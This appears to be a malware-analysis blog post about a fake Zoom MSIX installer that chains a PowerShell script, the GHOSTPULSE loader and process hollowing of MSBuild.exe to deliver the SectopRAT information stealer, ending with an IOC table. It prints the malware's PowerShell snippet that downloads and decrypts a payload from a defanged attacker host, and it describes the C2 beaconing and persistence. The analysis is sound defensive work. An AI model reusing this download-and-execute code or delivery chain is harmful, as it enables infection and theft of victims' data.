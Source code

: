 ```yaml
---
layout: post
title: SectopRAT Buffet with a side of GHOSTPULSE
date: 2024-05-08 22:00:00 +1030
description: 
image: 
category:
  - Theat_Hunting
  - Malware Analysis
tags:
  - malware_analysis
  - sectoprat
  - ghostpulse
  - msix
  - cyber_culture
  - C2
mermaid: true
img_path: /assets/img/
pin: true
---
```

![Zoom Installer](cyber_rat_tophat_700x300.jpg){: .shadow width="1200" height="630"}

---
## IN THE BEGINNING

Just another day in paradise with a fresh cup of coffee in hand, my Pomodoro clock ticking away 25 minutes, and the diffuser gently releasing its aroma. Fast forward a few and we are now looking at a campaign using signed MSIX App Packages disguised as legitimate installers for popular applications — Zoom Installer, in this case. Unbeknownst to the unsuspecting target, these seemingly innocent MSIX app packages conceal a malicious PowerShell script, setting off the multi-stage stealthy GHOSTPULSE loader, ultimately leading to the injection of a SectopRAT payload, a voracious .NET information stealer (aka ArechClient2), into `MSBuild.exe`{: .filepath}.

As described by MSFT, *"MSIX is a Windows app package format that combines the best features of MSI, .appx, App-V, and ClickOnce to provide a modern and reliable packaging experience"*. In Windows 10 and above, all applications are required to be signed with a valid code signing certificate. Regrettably, cheeky threat actors manage to acquire these certificates, and it's not uncommon for them to be traded in the deepest corners of the web.

Upon double-clicking `Zoom-x64.msix`{: .filepath}, an installation window promptly appears, mirroring the familiar interface of most other installers that users are accustomed to.

![Zoom Installer Window](Zoom-x64_execution.png){: .shadow }
_Zoom Installer Window - MSIX_

Upon the user's selection of `Install`, the latent PowerShell `script 2011_allso.ps1`{: .filepath} springs into action. It promptly initiates an initial GET request to the Command and Control (C2) server, signalling the commencement and concurrently transmitting system information from the compromised device—all cleverly encapsulated within the URL (Antivirus, Domain, Operating System). Without digging into the ins and outs of PSF, the malicious PowerShell script to be executed is defined within `config.json`{: .filepath} that is contained within the MSIX package.

![MSIX config](config_script.png){: .shadow }
_MSIX config.json_

**Example GET Request to the C2 Server:**
```console
hxxps[://]3010cars[.]xyz/?status=start&av=Windows Defender&domain=JUICYPANTS&os=Microsoft+Windows+10
```

## THE LATENT POWERSHELL SCRIPT
Venturing further into the intricacies of the PowerShell script, it becomes evident that the primary goal of `2011_allso.ps1`{: .filepath} is to retrieve a GPG-encrypted file named `robo-claim[.]site/order/allso.tar.gpg`{: .filepath}. Following this, the script decrypts the file and proceeds to execute `TPAutoConnect.exe`{: .filepath}, cunningly disguised as a renamed `vmtoolsd.exe`{: .filepath} binary. This binary, a featured component of the VMware user process, facilitates essential features like copy-paste, drag-and-drop within the VMware environment. A curious observer would also catch the passphrase `putin` being used for decryption.

![PowerShell Script Flow](script_flow.png){: .shadow }
_PowerShell Script Breakout_

**PowerShell Snippet - Retrieiving and Decrypting SectopRAT:**
```powershell
$url = "hxxps[://]robo-claim[.]site/order/allso.tar.gpg"
$outputPath = "$env:APPDATA\$xxx.gpg"
Invoke-WebRequest -Uri $url -OutFile $outputPath
echo 'putin' | .$env:APPDATA\gpg.exe --batch --yes --passphrase-fd 0 --decrypt --output $env:APPDATA\$xxx.rar $env:APPDATA\$xxx.gpg
```

![VMware Digital Signature](vmware_digital_sig.png){: .shadow }
_VMware Digital Signature_

At this stage, it is fair to asses that the `TPAutoConnect.exe (vmtoolsd.exe)`{: .filepath} binary may be being used to perform some form of sideloading. 

## DECRYPTING THE TAR ARCHIVE

Decryption of the TAR file spills the beans - inside, we've got `TPAutoConnect.exe (vmtoolsd.exe)`{: .filepath}, a bunch of DLLs, and the unexpected guest, `fibrolite.dwg`{: .filepath}. Doesn't quite fit the Zoom Installer vibe, right? Now, check out `fibrolite.dwg`{: .filepath} magic numbers – `89 50 4E 47 0D 0A 1A 0A`, initially screaming a .png graphic file. But, hold your horses. When `TPAutoConnect.exe`{: .filepath} takes the stage, it decrypts `fibrolite.dwg`{: .filepath} and pulls off a sneaky move by creating a suspended `MSBuild.exe`{: .filepath} process. This innocent-looking process, though, gets the VIP treatment with a SectopRAT injection. Big shoutout to the folks at [Elastic Security Labs](https://www.elastic.co/security-labs/ghostpulse-haunts-victims-using-defense-evasion-bag-o-tricks); they've dissected GHOSTPULSE and its stages like a boss. If you're itching for a deeper dive, their breakdown is a must-read. Everything mentioned here is like the calling card of the same sneaky campaign.

A sanity check of all the .DLL's with Sigcheck we see that digital signature of `glib-2.0.dll`{: .filepath} could not be verified. This could indicate tampering and/or corruption, ultimately the integrity of the DLL is not guaranteed; most likely our sideloading specimen

![Sigcheck](sigcheck.png){: .shadow }
_Sigcheck Signature could not be verified_

## THE JUICE - SECTOPRAT

Using the [Ghost Pulse Payload Extractor](https://github.com/elastic/labs-releases/tree/main/tools/ghostpulse), we are able to extract the payload from the encrypted GHOSTPULSE file.

![Ghostpulse Payload Extractor](ghost_pulse_extractor.png){: .shadow width="1200"}
_Ghostpulse Payload Extractor_

![PEStudio](pe_studio.png){: .shadow width="1200"}
_PEStudio - Ghost Pulse Payload_

Diving into the .NET binary without de-obfuscating, we can clearly see the information stealing capabilities of SectopRAT; scanning for Browsers, Wallets, Accounts, Processes, and files to name a few.

![SectopRAT Scan Critera](scan_details_criteria.png){: .shadow }
_SectopRAT Scan Criteria_

![SectopRAT Scan Arguments](scan_details_args.png){: .shadow }
_SectopRAT Scan Arguments_

When executed the malware creates the suspended child process `MSBuild.exe`{: .filepath}. This process appears to be hollowed out with the SectopRAT payload. A couple of indicators include a hanging `MSBuild.exe`{: .filepath} process with no arguments,  the `Current directory` path of `MSBuild.exe`{: .filepath} being the path the malware was executed from, and by scanning running processes with pe-sieve (developed by @hasherezade), it identified that the PE `MSBuild.exe`{: .filepath} was replaced, reference by the `is_pe_replaced: 1` result. And of course, simply dumping this process and doing analysis would reveal much of what has already been mentioned.

Of note, as part of the encryption process, the environment variable `KKHIECNPOYLCZOXDETZX` is created which points to an encrypted file at `%LOCALAPPDATA%\Temp\232135f6`{: .filepath}

![SectopRAT Scan Arguments](hollow_msbuild.png){: .shadow }
_Possible Process Hollowing of a suspended process_

In this sample, the final payload calls out to `hxxps[:]//pastebin[.]com/raw/cLika3dt`{: .filepath} which contained the C2 address `138.201.125[.]92`{: .filepath}. This C2 was also identified in the network connections upon execution of the malware. along with the string `AfkSystem`. Both indicators indicative of other previously reported SectopRAT samples in the wild.

![Pastebin](pastebin.png){: .shadow }
_C2 Address referenced within Pastebin_

![C2](network_connection.png){: .shadow }
_C2 Network Connections_
  
And lastly, to ensure it lives to fight another day the malware establishes persistence by creating the startup item `Dby_control.lnk`{: .filepath} which points to the original `TPAutoConnect.exe`{: .filepath} mentioned earlier.


---
## OBSERVATIONS

| Context            | Observable                                                                                                       | Indicator Type |
| ------------------ | ---------------------------------------------------------------------------------------------------------------- | -------------- |
| C2 within Pastebin | 138.201.125[.]92:15647                                                                                           | IP-v4          |
| Pastebin           | hxxps[://]pastebin[.]com/raw/cLika3dt                                                                            | url            |
| PS Script          | 2011_allso.ps1<br>**SHA256:** c6f8edcb9bff1efe62dcaddc90c27df67bf3f64d951a5f08089f2f1c5a7981d1                   | File           |
| Persistence        | %AppData%\Microsoft\Windows\Start Menu\Programs\Startup\Dby_control.lnk                                          | File           |
| Persistence        | TPAutoConnect.exe (vmtoolsd.exe)<br>**SHA256:** bf933ccf86c55fc328e343b55dbf2e8ebd528e8a0a54f8f659cd0d4b4f261f26 | File           |
| SecropRAT          | fibrolite.dwg<br>**SHA256:** f88d3d755ed1d8e79165c74c2c8fc7eefc8df2e909be73adfe3822f65107e5cc                    | File           |
| MSIX               | Zoom-x64.msix<br>**SHA256:** 2ea9ab31124e6639b635ef605473d433b99536d6465e23ab8f0375db35244dce                    | File           |
| Encryped Archive   | allso.tar.gpg<br>**SHA256:** d92178fb77200cabb9a7b36f0b93bcb7f0edd47acaafabca4a420a68f0eefcfd                    | File           |
| Sideload DLL       | glib-2.0.dll<br>**SHA256:** 32ef20dbf95940528359604947d2ed36bc81e2832000ee32af375e0fb3821684                     | File           |





---
### References:

* https://github.com/elastic/labs-releases/tree/main/nightMARE
* https://www.elastic.co/security-labs/ghostpulse-haunts-victims-using-defense-evasion-bag-o-tricks